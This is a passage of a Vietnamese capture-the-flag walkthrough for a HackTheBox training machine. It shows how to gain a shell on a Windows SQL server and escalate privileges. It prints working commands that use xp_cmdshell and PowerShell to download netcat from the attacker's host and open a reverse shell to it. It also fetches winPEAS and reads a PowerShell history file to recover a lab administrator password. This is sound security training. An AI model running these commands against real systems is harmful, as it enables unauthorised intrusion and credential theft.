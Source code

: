 ###### + Tải file thực thi: https://github.com/int0x33/nc.exe/blob/master/nc64.exe?source=post_page-----a2ddc3557403----------------------
###### + Bắt đầu một HTTP server đơn giản và netcan để lắng nghe ở một tab khác:
```
sudo python3 -m http.server 80
sudo nc -lvnp 443
```
##### + Giờ ta sẽ upload file .exe vào target, sử dụng `Powershell` vì nó cung cấp nhiều lệnh hơn:
` powershell -c command `
##### + Vì không phải là tài khoản Admin (Admin hệ thống chỉ có quyền thực thi trong SQL, Admin là Windows nói chung) nên sẽ không có đủ quyền để upload file lên thư mục `system32`. Chuyển thư mục đến nơi mà tài khoản có thể thực thi đẩy file. `Downloads` là một thư mục cho việc đó. Ta sẽ sử dụng `wget` để lấy nc64.exe về thư mục Downloads.
`xp_cmdshell “powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.89/nc64.exe -outfile nc64.exe"`
##### + Xác nhận là target đã thực hiện request đó trên màn hình terminal server HTTP:
![image](https://github.com/WildSaul/HTB_StartingPoint_FreeMachines_AllTiers/assets/155133173/7721e3da-7705-4235-a320-5f4bba1846b6)
##### + Liên kết cmd.exe qua nc đến listener:
`xp_cmdshell ‘poweshell -c cd C:\Users\sql_svc\Downloads ; .\nc64.exe -e cmd.exe 10.10.14.89 443’`
##### + Qua bên tab bật netcat, ta thấy đã Reverse shell thành công!
##### + Vào thư mục Desktop, gõ lệnh `type user.txt` và ta sẽ có flag của user.

### 3.3 Leo thang quyền lực (Privillege Escalation)
##### + tải winpeas về thư mục Download + di chuyển vào thư mục /home/hoang/Documents/archetype 
###### winPEASx64 chuyên dùng để quét các thư mục của target nhằm tìm lỗ hổng của thư mục, hệ thống, cấu hình hay hệ điều hành đó.
##### + vào lại target (đã reverse shell), kéo winPEASx64, tương tự như nc64
` wget http://10.10.14.89/winPEASx64.exe -outfile winPEASx64.exe `
![image](https://github.com/WildSaul/HTB_StartingPoint_FreeMachines_AllTiers/assets/155133173/7735d87b-30f2-4b66-9521-cc77f6912f8f)
##### + khởi chạy winPEASx64: .\winPEASx64.exe
 ![image](https://github.com/WildSaul/HTB_StartingPoint_FreeMachines_AllTiers/assets/155133173/39821942-ffce-4242-b1a0-eded7f2a4de2)

###### việc quét winPEASx64 chỉ giúp làm quen, không có ích trong bài này.
##### + Trước tiên, kiểm tra 2 file mà có thể chứa danh tính người dùng.
###### Vì đây là tài khoản người dùng bình thường cũng như là tài khoản dịch vụ (service account), ta nên kiểm tra những file được truy cập thường xuyên. Ta sẽ đọc file lịch sử của Powershell, tương đương với .bash_history trong các máy Linux. File ConsoleHost_history.txt có thể được tìm thấy trong thư mục *C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\* .
` type ConsoleHost_history.txt `
##### => có được tài khoản *administrator* và mật khẩu *MEGACORP_4dm1n!!*